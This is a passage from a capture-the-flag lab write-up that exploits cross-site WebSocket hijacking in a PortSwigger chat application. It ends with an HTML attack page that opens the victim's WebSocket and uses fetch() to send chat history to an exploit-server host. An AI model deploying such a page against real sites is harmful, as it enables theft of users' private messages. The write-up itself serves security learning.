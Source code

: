 Let's break it down:

**It uses WebSocket in the chat:**
```js
var webSocket = new WebSocket(chatForm.getAttribute("action"));
```

**We also see that function `sendMessage()` is calling function `htmlEncode()` to HTML encode our input:**
```js
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```

As you can see, it HTML encodes many characters. So normal DOM-based XSS won't exploitable.

However, since it's using WebSocket to communicate the chat, **we can try to test CSWSH (Cross-Site WebSocket Hijacking).**

First, let's send a test message, and intercept all WebSocket requests via Burp Suite:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113201139.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113201211.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113201218.png)

In the above WebSocket requests, we can see that **it’s vulnerable to CSRF(Cross-Site Request Forgery), as there is no CSRF token or unpredictable values in request parameters.**

**Then, we can refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113203555.png)

It'll send a `READY` message to render all chat messages.

If the WebSocket handshake request is vulnerable to CSRF, then an attacker’s web page can perform a cross-site request to open a WebSocket on the vulnerable site!

**To do so, I’ll craft a HTML form that automatically send a WebSocket request to `/chat` with message `READY`, and exfiltrate the victim’s chat history:**
```html
<html>
    <head>
        <title>CSRF-9</title>
    </head>
    <body>
        <script>
            // Create a new WebSocket object that points to /chat endpoint
            var webSocket = new WebSocket('wss://0a200002035e04ccc0cea048008a00db.web-security-academy.net/chat');
            webSocket.onopen = function() {
                // Send "READY" message to /chat to render the chat history
                webSocket.send("READY");
            };
            webSocket.onmessage = function(event) {
                // Send a GET request with the chat history to exploit server 
                fetch('https://exploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net/log?'+event.data, {method: 'GET'});
            };
```